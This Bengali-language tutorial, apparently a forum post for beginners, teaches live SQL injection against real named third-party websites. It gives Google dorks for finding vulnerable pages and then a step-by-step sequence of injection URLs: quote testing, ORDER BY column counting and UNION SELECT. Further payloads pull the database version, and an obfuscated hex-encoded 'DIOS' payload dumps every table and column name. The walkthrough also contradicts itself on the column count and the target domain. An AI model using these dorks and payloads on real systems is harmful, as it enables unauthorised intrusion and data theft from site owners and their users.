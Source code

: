 শুধু মাত্র নতুনদের জন্য অবিজ্ঞরা দূরে থাকুন ।
Live SQL injection

প্রথমে SQL INJECT করার জন্য আমাদের ভার্নাবল সাইট খুজতে হবে।
এর জন্য আমরা dork  use করব !
inurl:article.php?ID=
inurl:index.php?id=
inurl:trainers.php?id=
inurl:buy.php?category=
inurl:article.php?ID=
এখানে  কিছু dork আছে sql ভার্নাবল সাইট খুজার জন্য !

প্রথমে যে কোন একটা dork নিয়ে আমি  http://www.google.com এ  SEARCH  দিব !

inurl:index.php?id=

এই উপরের  dork টি  দিয়া SEARCH দিয়ে আমি অনেক সাইট দেখলাম সেখান থেকে আমি একটা সাইট নিলাম ।
যেমন :
http://www.orvec.com/news-article.php?id=5

প্রথমে SQL INJECT করার জন্য সাইটের ID ভেল্যু খুজতে হয় ।এরপর আপনাকে দেখতে হবে সাইট টি injectable কিনা ।

এর জন্য আপনাকে url এর শেষে একটি ' বসাতে হবে ।
http://www.orvec.com/news-article.php?id=5'

যদি ডাটাবেজের কিছু মিসিং আসে বা পেজের কিছু ইরর আসে তাহলে বুঝবেন সাইট টি injectable ।
যেমন : “You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ”’ at line 1″
Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /home1/aquacity/public_html/page.php on line 6

এখন আপনাকে দেখতে হবে সাইট টি Union based নাকি string based

String based '--+-

UNION based --
যেমন :
http://www.orvec.com/news-article.php?id=5'--+-

যদি ডাটাবেজের কিছু মিসিং না আসে  তাহলে বুঝবেন string based

যদি ডাটাবেজের কিছু মিসিং আসে  তাহলে বুঝবেন  Union based 

সাইট টি string based

এখন injectable সাইটে inject করার জন্য আপনাকে প্রথমে ডাটাবেজের কলাম বের করতে হবে ।

এখানে আমাদের ভার্নাবল সাইট

http://www.orvec.com/news-article.php?id=5'--+-

আমাদের ডাটাবেজের কলাম বের করতে হলে প্রথমে  +order+by+ কমান্ড দিতে হবে ।

তাহলে লিংকটি দাড়ায়

http://www.orvec.com/news-article.php?id=5'ORDER+BY+1--+-

এখন  By+ এর শেষে আপনাকে 1 থেকে শুরু করে ততক্ষণ পর্যন্ত চেষ্টা করতে হবে যতক্ষণ কোন  error বা মিসিং না দেখায় ।

নাহ , তাহলে সাইটে কোনো ডাটা মিস করতেছে না ।

এখন আবার 2 দিয়ে চেষ্টা করি

http://www.orvec.com/news-article.php?id=5'ORDER+BY+2--+-

এবারও ডাটা মিস করতেছে না ।

এবাবে 1,2,3,4,5,6,7,8 পর্যন্ত গেলাম ।

http://www.orvec.com/news-article.php?id=5'ORDER+BY+3--+-

9 এ গেলে পুরো সাইট SQL ইরর দেখায় ।

তাহলে সম্পূর্ণ লিঙ্কটি হবে

https://www.aquacity.com.pk/page.php?id=1'ORDER+BY+4--+-

ইরর এরকমের হতে পারে ।

Could not connect to MySQL server: Unknown column ’9′ in ‘order clause’ ।

অর্থ্যাত্‍ এই সাইটের ডাটাবেজের কলাম 8 টি ।

এখন আমাদের দেখতে হবে এই 4 টা কলামের ভেতর ভার্নাবল কোনটি ।এর জন্য আমাদের আবার কমান্ড ব্যবহার করতে হবে ।

কমান্ড টি হবে এমন
'AND+0+UNION+SELECT+1,2,3,4,5,6,7,8--+-

তাহলে লিংক টি দাড়াবে

http://www.orvec.com/news-article.php?id=5'AND+0+UNION+SELECT+1,2,3,4,5,6,7,8--+-





এখন আপনি ভার্নাবল কলাম দেখতে পাবেন ।

এই সাইটের ভার্নাবল কলাম 6,দেখাবে ।

এখানে আমরা 6 নম্বর কলাম নিয়ে কাজ করবো ।আপনার টার্গেট সাইট যা পাবেন তা নিয়ে কাজ করতে হবে।

এখন আমরা ভার্নাবল কলামের ভার্সন বের করবোঃ

এর জন্য আপনাকে আবার একটি কমান্ড ব্যবহার করতে হবে ।
এখন আগের লিংকে শুধু 6 এর version() জায়গায়  দিতে হবে ।

তাহলে আমার লিংক টি দাড়ায় এমন ।

http://www.orvec.com/news-article.php?id=5'AND+0+UNION+SELECT*/+1,2,3,4,5,version(),7,8--+-
ছবিঃ

এই লিংকে গেলে আমরা ভার্সন দেখতে পাবো ।

এটার ভার্সন 5.7.16

এখন আমরা সব  টেবিল এবং কলাম বাহির করবDios দিয়ে:

তাহলে লিংকটি দাড়ালো
http://www.orvec.com/news-article.php?id=5'AND+0+UNION+SELECT+1,2,3,4,5,/*!50000concat/**Rh**/*/(0x3c62723e,0x3c696d67207372633d2268747470733a2f2f662e746f7034746f702e696f2f705f32303036306e713168312e706e67222077696474683d2233303022206865696768743d22333030223e,0x3c62723e,0x3c666f6e7420636f6c6f723d22726564223e3c623e,0x496e6a656374656420627920443141524b2d5641345533,0x3c2f623e,0x3c2f666f6e743e,0x3c62723e,0x557365723a3a,current_user,0x3c62723e,0x56657273696f6e3a3a,version(),0x3c62723e,0x44617461626173653a3a,database/*data*//**Rh**/(),0x3c62723e,0x3c62723e,(select(@x)/*!50000from/**Rh**/*/(/*!50000select/**Rh**/*/(@x:=0x00),(select(0)/*!From/**Rh**/*/(/*!50000information_schema.columns/**Rh**/*/)/*!50000where/**Rh**/*/(table_schema=database/*data*//**Rh*/())and(0x00)in(@x:=/*!50000coNcat/**Rh**/*/(@x,0x3c6c693e,/*!50000table_name/**Rh**/*/,0x3a3a,/*!50000column_name/**Rh**/*/))))x)),7,8--+-
  
এই সাইটের টেবিল এবং কলাম  দেখতে পারবেন

  
